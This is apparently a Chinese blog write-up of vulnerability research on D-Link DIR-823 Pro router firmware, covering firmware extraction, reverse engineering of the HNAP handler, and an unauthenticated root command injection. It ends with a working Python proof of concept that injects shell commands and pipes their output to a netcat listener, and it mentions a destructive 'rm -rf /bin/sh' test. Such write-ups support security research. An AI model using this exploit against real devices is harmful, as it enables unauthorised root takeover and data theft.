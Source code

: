 ```yaml
---
layout:     post
title:      对D-link DIR823pro路由器的漏洞挖掘
subtitle:   尝试挖掘漏洞
date:       2021-03-08
author:     X1ng
header-img: dir823pro.jpg
catalog: true
tags:
    - 漏洞挖掘
    - iot
---
```


感觉iot设备的漏洞比较常见的就是溢出和命令注入了，找了一个网上没有找到相关资料的DIR-823 pro路由器测试

记录关于DIR-823 pro路由器上无交互RCE的漏洞挖掘过程

17年的固件也是年久失修了，就当作挖掘路由器设备漏洞的练手吧

### 固件获取

从官网获取[固件](http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-823+Pro)

从固件名称来看，应该是对openwrt进行二次开发而成的固件

### 解压文件系统

用binwalk直接解压

```
binwalk -Me page_openwrt-mtk-sysupgrade-86382-201710141034.bin
```

就可以得到文件系统了

### 固件分析

#### 攻击面分析

使用nmap对其开放的端口进行扫描

![](https://tva1.sinaimg.cn/large/008i3skNly1gpreu356dkj311y0pkqcu.jpg)

这里优先选择了比较熟悉的http服务

#### 查找可能存在漏洞的文件

经过查阅资料，openwrt启动时，会运行/etc/init.d/下的脚本

```
ls ./etc/init.d/
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprex200t6j31ey05oq7o.jpg)

找到与http服务有关的lighttpd文件

```
cat ./etc/init.d/lighttpd
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprezvbu38j31ai0sqthi.jpg)

可以看到起配置文件路径是`/etc/lighttpd/lighttpd.conf`

```
cat ./etc/lighttpd/lighttpd.conf
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf1umee8j31by0jmwjs.jpg)

找到一个比较可疑的文件`/www/web/HNAP1/prog.fcgi`

```
file ./www/web/HNAP1/prog.fcgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf57oksgj31c802ogo5.jpg)

是指向`/usr/sbin/prog.cgi`的软链接

```
file ./usr/sbin/prog.cgi
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gprf9dv39qj31a803k41n.jpg)

#### 分析可能存在漏洞的文件

由于过于贫穷，不能使用IDA pro 7.5，选择ghidra对文件进行逆向分析

经过分析，该程序的整体逻辑应该是

1. 先给特定的接口注册相应的处理函数

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhrh9l8j31a80mi49x.jpg)

2. 从环境变量中获取用户报文的字符串

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprfhwqxquj31a80mi7fu.jpg)

3. 之后就是对报文的一些分析处理

##### 可能存在的栈溢出漏洞

在main函数中发现了一个可能存在的栈溢出漏洞

其具体逻辑是，从环境变量中获取`HTTP_SOAPACTION`这一变量的值，将字符串存到某结构体中

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfqwb47uj31du0o84d2.jpg)

在之后对这一字符串进行处理的过程中，使用`strncpy`来进行字符串复制

![](https://tva1.sinaimg.cn/large/008i3skNly1gprfrtwzchj31dq0oawpt.jpg)

而`strcpy`与`strncpy`都是字符串操作中比较容易出现漏洞的地方，其作用都是将源字符串复制到目标地址

1. 如果`strcpy`函数的源字符串可被攻击者控制并且没有长度限制，就可能出现源字符串的长度大于目前栈帧的长度的情况，造成栈溢出
2. 而`strncpy`函数对字符串复制的长度进行了限制，其第三个参数用来表示字符串复制的长度，但是如果第三个参数为源字符串的长度，其实就相当于`strcpy`，可能造成栈溢出

而此处对字符串的处理就是使用`strstr`函数来获取源字符串的起始地址（`http://purenetworks.com`之后的字符串地址）与结束地址（下一次出现`"`的地址），然后将两者的差作为`strncpy`第三个参数

也就是上述的第二种情况

但是作为一个cgi文件，`prog.cgi`通过环境变量来获取报文，其他地方有没有对此处的字符串长度进行限制就不得而知了

为了测试这里是否真的存在栈溢出漏洞

- 首先尝试发送超长的字符串进行测试

    在程序发生栈溢出时有两种情况

    1. 程序无守护进程，栈溢出后直接崩溃，也就是发送的报文无返回，并且web服务就无法访问了
    2. 程序存在守护进程，栈溢出后仍然可以正常访问web服务

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprgcbh8tsj31060swdqc.jpg)

    发现在长度达到一定程度的时候会返回500状态码，而没有直接崩溃

    > https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Status/500
    >
    > 在 HTTP 协议中，`500 Internal Server Error` 是表示服务器端错误的响应状态码，意味着所请求的服务器遇到意外的情况并阻止其执行请求。
    >
    > 这个错误代码是一个通用的“万能”响应代码。有时候，对于类似于 500 这样的错误，服务器管理员会更加详细地记录相关的请求信息来防止以后同样错误的出现。

- 然后尝试qemu搭建一个虚拟调试环境，但是经过各种尝试，都无法进行`chroot`

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprhflybxlj314u0r2tb2.jpg)

- 最后尝试通过uart串口通信获取真机shell环境，但是连接后提示需要用户名密码登陆

    ![](https://tva1.sinaimg.cn/large/008i3skNly1gprh5xco7kj30y20pmb1e.jpg)

最后放弃了这里的探究

##### 命令注入漏洞

在进入路由器web页面时，通过burp suite进行抓包分析

![](https://tva1.sinaimg.cn/large/008i3skNly1gprh1jizwyj310i0t4ale.jpg)

（经过测试，通过`GetMultipleHNAPs`调用的这些接口都是没有鉴权的，也就是说无需身份验证就可以访问这些接口）

经过对这些接口处理函数的逆向分析，找到了一个比较可疑的函数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhiwjxsvj31co0nwtqg.jpg)

`FUN_0042a814`函数是对`SetNetworkTomographySettings`接口的处理函数

其功能大概是通过`ping`命令测试网络连通性，允许用户设置`ping`命令的参数

![](https://tva1.sinaimg.cn/large/008i3skNly1gprhlkynfij31es0oiaqf.jpg)

这里也就出现了一个比较常见的`sprintf`+`system`的漏洞模式

由于攻击者可以控制system参数的内容，并且没有有效的过滤，攻击者可通过发送特制的带有shell元字符的请求利用该漏洞执行任意的操作系统命令

并且经过测试（执行命令`rm -rf /bin/sh`，路由器成功变板砖了2333），这里的命令应该是以root权限执行的

poc.py:

```python
#python2

import requests

'''
shell:
nc -l -p 8888
'''

#192.168.0.115

def run(cmd = ""):
	posturl = "http://192.168.0.1/HNAP1/"
	posthead = {
	"SOAPACTION": "http://purenetworks.com/HNAP1/GetMultipleHNAPs"
	}
	if cmd != '':
		cmd = ';'+cmd+';'
	print cmd
	getsetting = '{"GetMultipleHNAPs":{"GetNetworkTomographySettings":""}}'
	setsetting = '{"GetMultipleHNAPs":{"SetNetworkTomographySettings":{ "tomography_ping_address": "'+cmd+'", "tomography_ping_number": "6", "tomography_ping_size": "64", "tomography_ping_timeout": "1", "tomography_ping_ttl": "20"}}}'
	
	a= requests.post(posturl, headers = posthead, data = setsetting)
	print a.text

run('ls | nc 192.168.0.115 8888')
```

需要注意的是，这里的命令是有长度限制的，插入太长的字符串会因为命令字符串不完整执行失败

shell1:

```
nc -l -p 8888
```

shell2:

```
python poc.py
```

